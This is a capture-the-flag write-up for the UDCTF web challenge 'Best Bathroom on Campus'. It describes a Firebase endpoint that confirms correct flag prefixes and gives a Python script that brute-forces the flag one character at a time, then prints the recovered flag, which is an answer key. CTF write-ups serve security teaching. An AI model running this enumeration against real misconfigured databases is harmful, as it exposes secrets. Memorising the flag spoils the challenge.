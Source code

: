 # Best Bathroom on Campus

This is a web challenge accessible at https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json     
An image is also provided in the challenge description:

![challenge_explaination](./bestbathroom.png)

As we can see the invoked API is returning `true` every time the url contains a valid substring(0, n) of the actual flag, where n is the number of characters of the substring sent so far. 

We can write a simple script to iterate through all possible printables characters and automatically increase the substring sent when a positive response is received, until the whole flag is obtained:

`best_bathroom.py`

```python
import requests
import string

url = "https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF"
ending = ".json"
flag = "UDCTF"

while "}" not in flag:
    
    for c in string.printable:
        if c == '/' or c == '\\':
            continue
        
        r = requests.get(url=url+c+ending)
        response = r.text
        
        if response == "true":
            flag += c
            url += c
            break
print(flag)
```

which is kinda slow and unoptimized but in the end still gets the job done:

```python
# UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}
```
